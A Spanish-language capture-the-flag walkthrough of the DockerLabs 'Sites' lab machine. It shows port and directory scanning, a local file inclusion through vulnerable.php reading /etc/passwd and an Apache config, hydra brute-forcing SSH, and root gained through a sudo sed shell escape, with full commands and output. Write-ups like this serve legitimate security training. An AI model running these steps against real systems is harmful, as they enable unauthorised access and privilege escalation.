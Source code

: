 #MAQUINA #DOCKERLABS #MEDIO 
#LFI
<hr>

# RECONOCIMIENTO

Vamos a resolver **Sites** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS -vvv -p- --min-rate 5000 -n -Pn 172.17.0.2
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-27 09:09 CET
Initiating ARP Ping Scan at 09:09
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 09:09, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 09:09
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 09:09, 0.52s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2025-03-27 09:09:33 CET for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.71 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                        
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-27 09:09 CET
Nmap scan report for chat.chatme.dl (172.17.0.2)
Host is up (0.000018s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 cb:8f:50:db:6d:d8:d4:ac:bf:54:b0:62:12:7c:f0:01 (ECDSA)
|_  256 ca:6b:c7:0c:2a:d6:0e:3e:ff:c4:6e:61:ac:35:db:01 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Configuraci\xC3\xB3n de Apache y Seguridad en Sitios Web
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.43 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-27 09:10 CET
Nmap scan report for chat.chatme.dl (172.17.0.2)
Host is up (0.0000040s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

## HTTP (80)

Usamos **gobuster** :

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,js,txt,png,jpg 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              js,txt,png,jpg,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 3591]
/.php                 (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/vulnerable.php       (Status: 200) [Size: 37]
/server-status        (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================



```

Tenemos el **vulnerable.php**.

Usamos wfuzz :
```bash
wfuzz -u "http://172.17.0.2/vulnerable.php?FUZZ=/etc/hosts" -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --hw=7
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/vulnerable.php?FUZZ=/etc/hosts
Total requests: 207643

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                  
=====================================================================

000000099:   200        8 L      16 W       175 Ch      "page"                                                                                                                   
000000125:   200        1 L      2 W        18 Ch       "user" 
```

Tenemos un **LFI**.

Apuntamos a `/etc/passwd` -> usuario : **chocolate**

En el index, nos habla de un sites-available. Se encuentra en `/etc/apache2/sites-available` y nos habla de un sitio.conf :

```bash

http://172.17.0.2/vulnerable.php?page=/etc/apache2/sites-available/sitio.conf

<VirtualHost *:80>
    ServerAdmin webmaster@tusitio.com
    DocumentRoot /var/www/html
    ServerName sitio.dl
    ServerAlias www.sitio.dl

    <Directory /var/www/html>
        Options Indexes FollowSymLinks
        AllowOverride All
        Require all granted
    </Directory>

    # Bloquear acceso al archivo archivitotraviesito (cuidadito cuidadin con este regalin)
    # <Files "archivitotraviesito">
    #   Require all denied
    # </Files>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

```

Nos habla de un archivo `archivitotraviesito` :

```bash

Muy buen, has entendido el funcionamiento de un LFI y los archivos interesantes a visualizar dentro de apache, ahora te proporciono el acceso por SSH, pero solo la password, para practicar un poco de bruteforce (para variar)

lapasswordmasmolonadelacity

```
# EXPLOTACION

Usamos **hydra** :

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p lapasswordmasmolonadelacity  ssh://172.17.0.2 -t 64 -F
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-27 09:31:19
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 8295455 login tries (l:8295455/p:1), ~129617 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 489.00 tries/min, 489 tries in 00:01h, 8295012 to do in 282:44h, 18 active
[22][ssh] host: 172.17.0.2   login: chocolate   password: lapasswordmasmolonadelacity
[STATUS] attack finished for 172.17.0.2 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-27 09:32:49
```

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:

   ```bash
chocolate@ae2bd99b618e:~$ sudo -l
Matching Defaults entries for chocolate on ae2bd99b618e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User chocolate may run the following commands on ae2bd99b618e:
    (ALL) NOPASSWD: /usr/bin/sed


```

Vemos **sed** con permisos SUDO:

```bash

chocolate@ae2bd99b618e:~$ sudo sed -n '1e exec sh 1>&0' /etc/hosts
# whoami
root
# 

```

**YA ESTAMOS COMO ROOT.**